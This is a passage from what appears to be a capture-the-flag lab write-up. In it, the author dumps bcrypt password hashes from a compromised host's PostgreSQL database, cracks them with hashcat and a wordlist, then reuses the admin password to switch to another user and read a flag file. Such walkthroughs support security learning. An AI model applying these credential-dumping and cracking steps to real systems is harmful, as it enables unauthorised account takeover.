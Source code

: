 ```

         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

(END)
```
We can look into them:
```
cozyhosting=# SELECT * FROM hosts;
SELECT * FROM hosts;
WARNING: terminal is not fully functional
Press RETURN to continue 

 id | username  |      hostname      
----+-----------+--------------------
  1 | kanderson | suspicious mcnulty
  5 | kanderson | boring mahavira
  6 | kanderson | stoic varahamihira
  7 | kanderson | awesome lalande
(4 rows)

(END)q
cozyhosting=# 
cozyhosting=# SELECT * FROM users;
SELECT * FROM users;
WARNING: terminal is not fully functional
Press RETURN to continue 

   name    |                           password                           | role
  
-----------+--------------------------------------------------------------+-----
--
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admi
n
(2 rows)

(END)
```
We now have two `blowfish` hashes. Let's run `hashcat` on them to find potential passwords:
```
$hashcat -m 3200 hashes /usr/share/wordlists/rockyou.txt
```
Very quickly, I got the password for the admin:
```
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:m[...]d
```
We can now use this password to log as `josh`:
```
app@cozyhosting:/tmp/jar$ su josh     
su josh
Password: m[...]d

josh@cozyhosting:/tmp/jar$ cd 
cd 
josh@cozyhosting:~$ ls
ls
user.txt
josh@cozyhosting:~$ cat user.txt
cat user.txt
```